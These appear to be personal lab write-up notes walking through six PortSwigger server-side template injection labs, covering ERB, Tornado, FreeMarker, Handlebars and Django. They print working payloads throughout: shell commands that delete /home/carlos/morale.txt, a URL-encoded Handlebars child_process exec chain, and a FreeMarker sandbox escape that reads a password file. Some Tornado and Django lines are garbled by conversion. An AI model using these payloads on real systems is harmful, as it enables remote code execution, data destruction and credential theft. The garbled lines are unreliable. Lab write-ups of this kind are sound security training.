# Portswigger Labs

## Lab 1: Basic SSTI

When viewing the requests sent upon viewing a product, this is what I see:



Further testing reveals that this `message` parameter is printed on the screen:



Using `<%= 7/0 %>` causes a 500 error. This means that the template is processing information insecurely. Using this, I can execute `system("rm /home/carlos/morale.txt")`.

## Lab 2: Basic SSTI with Code Context

This lab provides me with a 'preferred name' feature:



When the request is viewed, I saw that it uses `user.first_name`.



It looks like this is dynamically retrived. This lab uses a Tornado template, and since it uses `user.first_name`, the input might be processed like this:

```
{{user.first_name}}
```

Since the above is probably not sanitised, I can do enter `}}{{6*6`. This might cause the expressions evaluated to be:

```
{{user.first_name}}{{6*6}} (the last 2 brackets are automatically there)
```

The method above works, and the '36' is reflected when I leave a comment on a post. Using this method, one can execute Python using the following format:

```

<div data-gb-custom-block data-tag="import"></div>{{os.system('rm /home/carlos/morale.txt')
```

Afterwards, leave a comment on any post.

## Lab 3: Using Documentation

This particular lab requires us to identify the template engine used.

The lab provides us with a 'Edit template' option.



Using this, I can attempt to identify the template used using this payload:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```

The first one is processed!



I went to PayloadAllTheThings and tested all the frameworks of which this worked with, and found that it was FreeMarker being used:



There are quite a few payloads for code execution:



The rest of the lab is trivial.

## Lab 4: Unknown Language

Firstly, this lab uses the `message` parameter, and using `{{7*7}}` results in an error:



The above uses Handlebars. Hacktricks has a payload for this, which can be modified to solve the lab:

```
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27rm+/home/carlos/morale.txt%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

## Lab 5: Information Disclosure via User-Supplied Objects

To solve this lab, steal the secret key from the website. By trying to edit the content of a post with this:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```

It causes this error:



So this runs on Django. Using \`

\` reveals a ton of information, and actually it shows some Jinja2 debug stuff:



I can then use this payload to extract the key to solve the lab:



## Lab 6: Sandboxed Environment

This lab uses the Freemarker template engine. To solve the lab, read `/home/carlos/my_password.txt`. This lab gives us `content-manager` access.



This is the payload they used:

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```



Converting this to ASCII and submitting that solves the lab. I will dive into this exploit...another time.
